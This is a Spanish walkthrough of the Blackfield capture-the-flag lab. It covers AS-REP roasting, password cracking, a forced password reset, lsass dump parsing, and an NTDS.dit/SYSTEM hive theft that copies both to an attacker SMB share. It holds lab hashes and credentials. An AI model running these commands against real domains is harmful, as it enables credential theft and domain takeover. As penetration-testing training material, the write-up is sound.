

# Resolución maquina Blackfield

**Autor:** PepeMaquina.
**Fecha:** 06 Marzo de 2026.
**Dificultad:** Hard.
**Sistema Operativo:** Windows.
**Tags:** Enumreación, lsass, backup.

---
## Imagen de la Máquina

*Imagen: Blackfield.JPG*
## Reconocomiento Inicial
### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~bash
sudo nmap -p- --open -sS -vvv --min-rate 4000 -n -Pn 10.129.229.17 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p53,88,135,389,445,593,5985 10.129.229.17 -oN targeted
~~~
### Enumeración de Servicios
~~~
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-06 23:52:15Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m06s
| smb2-time: 
|   date: 2026-03-06T23:52:24
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
~~~
Se trata de un active directory porque conlleva un puerto 88 kerberos a primera vista.
### Enumeración de nombre del dominio
Se realizo la enumeración del dominio, con ello se obtuvieron el nombre de dominio y host.
~~~ bash
┌──(kali㉿kali)-[~/htb/blackfield/nmap]
└─$ sudo netexec smb 10.129.229.17 -u '' -p ''
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\: 
~~~
Y como es costumbre se lo añade al /etc/host
~~~ bash
cat /etc/hosts                                                                                                  
127.0.0.1       localhost
<SNIP>
10.129.229.17 BLACKFIELD.local dc01 dc01.BLACKFIELD.local
~~~
A si tambien para realizar la enumeración se intento utilizar credenciales nulas pero no surge efecto, entonces probando credenciales como invitado si se llega a enumerar recursos compartidos.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield/nmap]
└─$ sudo netexec smb 10.129.229.17 -u 'asd' -p '' --shares
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)                                                                                                                                                     
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\asd: (Guest)
SMB         10.129.229.17   445    DC01             [*] Enumerated shares
SMB         10.129.229.17   445    DC01             Share           Permissions     Remark
SMB         10.129.229.17   445    DC01             -----           -----------     ------
SMB         10.129.229.17   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.229.17   445    DC01             C$                              Default share
SMB         10.129.229.17   445    DC01             forensic                        Forensic / Audit share.
SMB         10.129.229.17   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.229.17   445    DC01             NETLOGON                        Logon server share 
SMB         10.129.229.17   445    DC01             profiles$       READ            
SMB         10.129.229.17   445    DC01             SYSVOL                          Logon server share
~~~
Se puede ver un recurso compartido no usual como `profiles$`, al entrar en el se puede ver que se trata de usuarios posiblemente validos.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield/nmap]
└─$ smbclient '//10.129.229.17/profiles$' -U 'as'
Password for [WORKGROUP\as]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  3 12:47:12 2020
  ..                                  D        0  Wed Jun  3 12:47:12 2020
  AAlleni                             D        0  Wed Jun  3 12:47:11 2020
  ABarteski                           D        0  Wed Jun  3 12:47:11 2020
  ABekesz                             D        0  Wed Jun  3 12:47:11 2020
  ABenzies                            D        0  Wed Jun  3 12:47:11 2020
  ABiemiller                          D        0  Wed Jun  3 12:47:11 2020
  AChampken                           D        0  Wed Jun  3 12:47:11 2020
  ACheretei                           D        0  Wed Jun  3 12:47:11 2020
  ACsonaki                            D        0  Wed Jun  3 12:47:11 2020
  AHigchens                           D        0  Wed Jun  3 12:47:11 2020
<----SNIP---->
~~~
De esto se puede sacar usuarios validos, para comprobarlo se anotaron los usuarios validos en un archivo y los inspecciono por kerberos utilizando `kerbrute`.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield]
└─$ /opt/windows/fuerzabruta/kerbrute_linux_amd64 userenum -d blackfield.local --dc 10.129.229.17 users 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/06/26 - Ronnie Flathers @ropnop

2026/03/06 12:13:38 >  Using KDC(s):
2026/03/06 12:13:38 >   10.129.229.17:88

2026/03/06 12:13:59 >  [+] VALID USERNAME:       audit2020@blackfield.local
2026/03/06 12:15:56 >  [+] VALID USERNAME:       support@blackfield.local
2026/03/06 12:16:01 >  [+] VALID USERNAME:       svc_backup@blackfield.local
~~~
Tambien para corroborar de enumeraron los usuarios con netexec.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield]
└─$ sudo netexec smb 10.129.229.17 -u 'a' -p '' --rid-brute
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)                                                                                                                                                     
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\a: (Guest)
SMB         10.129.229.17   445    DC01             498: BLACKFIELD\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.229.17   445    DC01             500: BLACKFIELD\Administrator (SidTypeUser)
<----SNIP---->
~~~
Encontrando aun mas usuarios. Realizando el mismo proceso de anotarlos en un archivo y comparandolos con kerbrute, se obtuvo una lista de usuarios validos.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield]
└─$ /opt/windows/fuerzabruta/kerbrute_linux_amd64 userenum -d blackfield.local --dc 10.129.229.17 users_valid 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/06/26 - Ronnie Flathers @ropnop

2026/03/06 12:19:10 >  Using KDC(s):
2026/03/06 12:19:10 >   10.129.229.17:88

2026/03/06 12:19:15 >  [+] VALID USERNAME:       audit2020@blackfield.local
2026/03/06 12:19:15 >  [+] VALID USERNAME:       support@blackfield.local
2026/03/06 12:19:15 >  [+] VALID USERNAME:       lydericlefebvre@blackfield.local
2026/03/06 12:19:15 >  [+] VALID USERNAME:       svc_backup@blackfield.local
2026/03/06 12:19:15 >  [+] VALID USERNAME:       SRV-INTRANET$@blackfield.local
2026/03/06 12:19:15 >  [+] VALID USERNAME:       SRV-EXCHANGE$@blackfield.local
2026/03/06 12:19:15 >  [+] VALID USERNAME:       SRV-WEB$@blackfield.local
2026/03/06 12:19:15 >  [+] VALID USERNAME:       SRV-FILE$@blackfield.local
~~~

### AsrProast atack
Uno de los ataques principales que se debe realizar en un dominio es el famoso asrproast, realizando esto se observa que un usuario tiene esta mala configuracion y se tiene su hash.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield]
└─$ sudo netexec ldap 10.129.229.17 -u users_valid -p '' --asreproast output.txt
LDAP        10.129.229.17   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
LDAP        10.129.229.17   389    DC01             $krb5asrep$23$support@BLACKFIELD.LOCAL:c3e6627df55cf9a64dc7b100d2b136bf$20c5c297e6399ec259d3968d1fca3e75913d1fc863aa232fd2a0d3447e9b686b4b984bf246da0b5f839bde172afff6e5ee0800c69c80fcc4f1bc6d3c138d18670074ff2d38c1b172fba5e187d42b8e643e6a5aad63899ea963a98b5cc1c48d70bb973893096ff3c50cb0ba6880ed923818b0fbe7342185fb6a5e2992abb75bb5eed4cf2df31fe303f100f8ac2e97e89fb95eb67459f08cc5c5a639ca71943b839ebe4041100cdc4d6aea6e27730936edb617208d0ccd04f06e0cee143853237c619bbb4b81b180f981776d547b6906412de6e74f69717c54cc1906537ba52c2329e8270860320772408c669a7fdcf4858f77038b
~~~
Con este hash se procede a descifrarlo mediante `john the ripper`, obteniendo su contraseña en texto claro.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield]
└─$ sudo john hash_support --wordlist=/usr/share/wordlists/rockyou.txt      
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)     
1g 0:00:00:19 DONE (2026-03-06 12:22) 0.05170g/s 741208p/s 741208c/s 741208C/s #1ByNature..#*burberry#*1990
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
~~~

### BloodHound
Con credenciales validas, lo que se hace es mapear el dominio con bloodhound.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield]
└─$ bloodhound-python -u 'support' -p '#00^BlackKnight' -c All -d blackfield.local -ns 10.129.229.17 --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: blackfield.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.blackfield.local
WARNING: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
WARNING: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 316 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.BLACKFIELD.local
WARNING: Failed to get service ticket for DC01.BLACKFIELD.local, falling back to NTLM auth
CRITICAL: CCache file is not found. Skipping...
WARNING: DCE/RPC connection failed: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Done in 00M 44S
INFO: Compressing output into 20260306123220_bloodhound.zip
~~~
Al pasar el archivo a bloodhound CE, se puede ver que el usuario `support` que tenemos control tiene permisos para cambiar la contraseña al usuario `audit2020`.

Asi que forzando el cambio.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield]
└─$ bloodyAD -u 'support' -p '#00^BlackKnight' -d "blackfield.local" --host 10.129.229.17 set password "audit2020" 'Password123!'
[+] Password changed successfully!
~~~
Si bien se puede recordar, en los recursos compartidos se tiene uno especial con una descripcion de "audit", por lo que lo mas probable es que este usuario tenga acceso a el.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield]
└─$ sudo netexec smb 10.129.229.17 -u 'audit2020' -p 'Password123!' --shares 
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)                                                                                                                                                     
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\audit2020:Password123! 
SMB         10.129.229.17   445    DC01             [*] Enumerated shares
SMB         10.129.229.17   445    DC01             Share           Permissions     Remark
SMB         10.129.229.17   445    DC01             -----           -----------     ------
SMB         10.129.229.17   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.229.17   445    DC01             C$                              Default share
SMB         10.129.229.17   445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.129.229.17   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.229.17   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.229.17   445    DC01             profiles$       READ            
SMB         10.129.229.17   445    DC01             SYSVOL          READ            Logon server share 
~~~
Efectivamente tiene acceso, asi que viendo su contenido.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield/content/smb]
└─$ smbclient '//10.129.229.17/forensic' -U 'audit2020'
Password for [WORKGROUP\audit2020]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020

                5102079 blocks of size 4096. 1699723 blocks available
smb: \> cd commands_output\
smb: \commands_output\> ls
  .                                   D        0  Sun Feb 23 13:14:37 2020
  ..                                  D        0  Sun Feb 23 13:14:37 2020
  domain_admins.txt                   A      528  Sun Feb 23 08:00:19 2020
  domain_groups.txt                   A      962  Sun Feb 23 07:51:52 2020
  domain_users.txt                    A    16454  Fri Feb 28 17:32:17 2020
  firewall_rules.txt                  A   518202  Sun Feb 23 07:53:58 2020
  ipconfig.txt                        A     1782  Sun Feb 23 07:50:28 2020
  netstat.txt                         A     3842  Sun Feb 23 07:51:01 2020
  route.txt                           A     3976  Sun Feb 23 07:53:01 2020
  systeminfo.txt                      A     4550  Sun Feb 23 07:56:59 2020
  tasklist.txt                        A     9990  Sun Feb 23 07:54:29 2020

                5102079 blocks of size 4096. 1699684 blocks available
smb: \commands_output\> cd ..
smb: \> cd memory_analysis\
smb: \memory_analysis\> ls
  .                                   D        0  Thu May 28 16:28:33 2020
  ..                                  D        0  Thu May 28 16:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 16:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 16:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 16:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 16:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 16:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 16:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 16:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 16:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 16:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 16:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 16:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 16:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 16:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 16:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 16:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 16:27:53 2020

                5102079 blocks of size 4096. 1699684 blocks available
smb: \memory_analysis\> cd ..
smb: \> cd tools\
smb: \tools\> ls
  .                                   D        0  Sun Feb 23 08:39:08 2020
  ..                                  D        0  Sun Feb 23 08:39:08 2020
  sleuthkit-4.8.0-win32               D        0  Sun Feb 23 08:39:03 2020
  sysinternals                        D        0  Sun Feb 23 08:35:25 2020
  volatility                          D        0  Sun Feb 23 08:35:39 2020

                5102079 blocks of size 4096. 1699684 blocks available
smb: \tools\> cd ..
smb: \> exit
~~~
Esto conlleva una gran variedad de archivos, pero lo primero que llama mi atencion es un archivo `lsass.zip` dentro del directorio `\memory_analysis`, esto puede ser util ya que si dentro del comprimido existe un dumpeado del lsass, se podria llegar a ver credenciales tanto en texto plano como en hash que se encuentran en la memoria.
### Dump Lsass
Para esto se descarga el archivo y descomprime.
~~~bash
┌──(kali㉿kali)-[~/…/blackfield/content/smb/memory_analysis]
└─$ unzip lsass.zip                           
Archive:  lsass.zip
  inflating: lsass.DMP               
                                                                                                                                                            
┌──(kali㉿kali)-[~/…/blackfield/content/smb/memory_analysis]
└─$ ls
lsass.zip    lsass.DMP
~~~
Se tiene suerte porque si existe un dumpeado de la lsass.
Ahora con pypykatz que es un mimikatz pero en python, se puede dumpeas el lsass y asi ver si contiene credenciales.
~~~bash
┌──(kali㉿kali)-[~/…/blackfield/content/smb/memory_analysis]
└─$ pypykatz lsa minidump lsass.DMP 
INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef62100000000
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)

== LogonSession ==
authentication_id 365835 (5950b)
session_id 2
username UMFD-2
domainname Font Driver Host
logon_server 
logon_time 2020-02-23T17
<----SNIP---->
~~~
Se puede ver hashes del DC, pero estos no son correctos.
Tambien se puede ver un hash para el usuario `svc_backup`, donde revisando sus permisos con bloodhound este tiene acceso remoto.

Por lo que puede llegar a tener permisos te conexion por winrm.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield]
└─$ sudo netexec winrm 10.129.229.17 -u 'svc_backup' -H 9658d1d1dcd9250115e2205d9f48400d
WINRM       10.129.229.17   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.229.17   5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
~~~
Si tiene permisos de conexcion por winrm, asi que se procede a conectarse.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield]
└─$ evil-winrm -i 10.129.229.17 -u 'svc_backup' -H 9658d1d1dcd9250115e2205d9f48400d
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline'
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents>
~~~

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Con acceso a la maquina, ya se puede averiguar la user flag.
~~~
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd ..
*Evil-WinRM* PS C:\Users\svc_backup> tree /f
Folder PATH listing
Volume serial number is 5BDD-68B4
C:.
ÃÄÄÄ3D Objects
ÃÄÄÄContacts
ÃÄÄÄDesktop
³       user.txt
³
ÃÄÄÄDocuments
ÃÄÄÄDownloads
ÃÄÄÄFavorites
³   ³   Bing.url
³   ³
³   ÀÄÄÄLinks
ÃÄÄÄLinks
³       Desktop.lnk
³       Downloads.lnk
³
ÃÄÄÄMusic
ÃÄÄÄPictures
ÃÄÄÄSaved Games
ÃÄÄÄSearches
ÀÄÄÄVideos
*Evil-WinRM* PS C:\Users\svc_backup> cd desktop
*Evil-WinRM* PS C:\Users\svc_backup\desktop> type user.txt
<Encuentre su propia user flag>
~~~

---
## Escalada de Privilegios
Para escalar privilegios se realizo enumeración manual, por la que se ven los permisos que tiene.
~~~powershell
*Evil-WinRM* PS C:\Users\svc_backup\desktop> whoami /all

USER INFORMATION
----------------

User Name             SID
===================== ==============================================
blackfield\svc_backup S-1-5-21-4194615774-2175524697-3563712290-1413

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.
~~~
Lo mas importante que se llega a notar es que se encuentra en el grupo `Backup Operators` y tiene los permisos `SeBackupPrivilege` y `SeRestorePrivilege`.
Estos permisos permiten obtener credenciales de la SAM y SYSTEM para ver las credenciales locales, y como la maquina es el DC, las credenciales de administrator serian las credenciales de domain admin.
### NTDS dump
Intentanto dicho ataque esto no fue posible y genero un error, por lo que se procede a la segunda opción que es dumpear el NTDS.
Para dumpear el NTDS se tienen varios metodos, lo primordial es realizar la copia del NTDS.dit para pasarla a la maquina atacante.
Se intentaron metodos como `vssadmin` pero no funciono porque requiere permisos mas elevados para usarla. Un metodo casi seguro es utilizar `diskshadow`, esto puede probarse enviando directamente el script que se quiere ejecutar.
Primero se crea el script en kali para que copie todo el contenido del disco C: en otro disco.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield/exploits]
└─$ cat script.txt    
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% D:
end backup
exit
~~~
Adicionalmente se transformo el script para que sea compatible (no es obligatorio, pero puede ser util dependiendo de como fucione el DC).
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield/exploits]
└─$ unix2dos script.txt                        
unix2dos: converting file script.txt to DOS format...
~~~
Con eso creado, debe de pasarse a la maquina victima por cualquier medio, en este caso un simple `upload` desde evil-winrm funciona.
Ahora se ejecuta `diskshadow`.
~~~powershell
*Evil-WinRM* PS C:\windows\system32> diskshadow /s C:\windows\temp\a\script.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  3/6/2026 8:03:12 PM

-> set verbose on
-> set metadata C:\Windows\Temp\meta.cab
The existing file will be overwritten.
-> set context clientaccessible
-> set context persistent
-> begin backup
-> add volume C: alias cdrive
-> create
Excluding writer "Shadow Copy Optimization Writer", because all of its components have been excluded.
Component "\BCD\BCD" from writer "ASR Writer" is excluded from backup,
because it requires volume  which is not in the shadow copy set.
The writer "ASR Writer" is now entirely excluded from the backup because the top-level
non selectable component "\BCD\BCD" is excluded.

* Including writer "Task Scheduler Writer":
        + Adding component: \TasksStore

* Including writer "VSS Metadata Store Writer":
        + Adding component: \WriterMetadataStore

* Including writer "Performance Counters Writer":
        + Adding component: \PerformanceCounters

* Including writer "System Writer":
        + Adding component: \System Files
        + Adding component: \Win32 Services Files

* Including writer "WMI Writer":
        + Adding component: \WMI

* Including writer "DFS Replication service writer":
        + Adding component: \SYSVOL\B0E5E5E5-367C-47BD-8D81-52FF1C8853A7-A711151C-FA0B-40DD-8BDB-780EF9825004

* Including writer "COM+ REGDB Writer":
        + Adding component: \COM+ REGDB

* Including writer "NTDS":
        + Adding component: \C:_Windows_NTDS\ntds

* Including writer "Registry Writer":
        + Adding component: \Registry

Alias cdrive for shadow ID {a9955f48-0d54-427c-b795-6cbf81e8e7ca} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {23637fcf-76bb-427a-9d19-f12fd56b4ba5} set as environment variable.
Inserted file Manifest.xml into .cab file meta.cab
Inserted file BCDocument.xml into .cab file meta.cab
Inserted file WM0.xml into .cab file meta.cab
Inserted file WM1.xml into .cab file meta.cab
Inserted file WM2.xml into .cab file meta.cab
Inserted file WM3.xml into .cab file meta.cab
Inserted file WM4.xml into .cab file meta.cab
Inserted file WM5.xml into .cab file meta.cab
Inserted file WM6.xml into .cab file meta.cab
Inserted file WM7.xml into .cab file meta.cab
Inserted file WM8.xml into .cab file meta.cab
Inserted file WM9.xml into .cab file meta.cab
Inserted file WM10.xml into .cab file meta.cab
Inserted file DisDBF6.tmp into .cab file meta.cab

Querying all shadow copies with the shadow copy set ID {23637fcf-76bb-427a-9d19-f12fd56b4ba5}

        * Shadow copy ID = {a9955f48-0d54-427c-b795-6cbf81e8e7ca}               %cdrive%
                - Shadow copy set: {23637fcf-76bb-427a-9d19-f12fd56b4ba5}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 3/6/2026 8:03:24 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent Differential

Number of shadow copies listed: 1
-> expose %cdrive% D:
-> %cdrive% = {a9955f48-0d54-427c-b795-6cbf81e8e7ca}
The shadow copy was successfully exposed as D:\.
-> end backup
-> exit
~~~
Esto crea la copia del disco C: a un disco nuevo D:.
~~~bash
*Evil-WinRM* PS C:\windows\system32> dir D:

    Directory: D:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        5/26/2020   5:38 PM                PerfLogs
d-----         6/3/2020   9:47 AM                profiles
d-r---        3/19/2020  11:08 AM                Program Files
d-----         2/1/2020  11:05 AM                Program Files (x86)
d-r---        2/23/2020   9:16 AM                Users
d-----        9/21/2020   4:29 PM                Windows
-a----        2/28/2020   4:36 PM            447 notes.txt
~~~
Se puede ver que se copio correctamente al disco C:.
Ahora con robocopy se puede copiar directamente el ntds.dit a un directorio dentro el disco C:.
~~~bash
*Evil-WinRM* PS C:\windows\temp\a> robocopy /B D:\Windows\NTDS .\ntds ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Friday, March 6, 2026 8:04:59 PM
   Source : D:\Windows\NTDS\
     Dest : C:\windows\temp\a\ntds\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

          New Dir          1    D:\Windows\NTDS\
            New File              18.0 m        ntds.dit
  0.0%
<----SNIP---->
 99.6%
100%
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         1         0         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   18.00 m   18.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00

   Speed :            30198988 Bytes/sec.
   Speed :            1728.000 MegaBytes/min.
   Ended : Friday, March 6, 2026 8:05:00 PM

*Evil-WinRM* PS C:\windows\temp\a> ls

    Directory: C:\windows\temp\a

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         3/6/2026   8:03 PM                ntds
-a----         3/6/2026  12:02 PM            197 script.txt

*Evil-WinRM* PS C:\windows\temp\a> cd ntds
*Evil-WinRM* PS C:\windows\temp\a\ntds> ls

    Directory: C:\windows\temp\a\ntds

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         3/6/2026   8:03 PM       18874368 ntds.dit

~~~
Ahora se tiene acceso al ntds.dit, solo es cosa de pasarlo a la maquina atacante, pero tambien es importante pasar el SYSTEM para realizar el dumpeado.
~~~powershell
*Evil-WinRM* PS C:\windows\temp\a\ntds> reg save hklm\system C:\windows\temp\a\ntds\system.hive
The operation completed successfully.
~~~
En este caso utilize un servicio smb creado desde mi maquina para pasar los archivos.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield/exploits]
└─$ impacket-smbserver smb $(pwd) -smb2support 
Impacket v0.14.0.dev0+20251117.163331.7bd0d5ab - Copyright Fortra, LLC and its affiliated companies
~~~

~~~powershell
*Evil-WinRM* PS C:\windows\temp\a\ntds> copy C:\windows\temp\a\ntds\ntds.dit \\10.10.14.28\smb\

*Evil-WinRM* PS C:\windows\temp\a\ntds> copy C:\windows\temp\a\ntds\system.hive \\10.10.14.28\smb\
~~~

~~~bash
